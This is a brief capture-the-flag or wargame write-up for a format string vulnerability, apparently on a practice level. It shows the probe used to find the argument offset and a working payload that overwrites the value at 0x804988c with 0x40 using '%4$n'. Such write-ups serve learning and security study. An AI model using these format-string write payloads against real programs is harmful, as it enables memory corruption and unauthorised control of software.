 level3:492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02

format string vuln

modify value of `0x804988c` to `0x40`

The first thing we print arrives at the fourth arguement, tested with `AAAA %x %x %x %x %x %x %x`

We use this payload `"\x8c\x98\x04\x08" + "A" * 60 + "%4$n"` -> `%4$n` change the value of the 4th argument to the number of char printed up to now.

`0x40` = `64`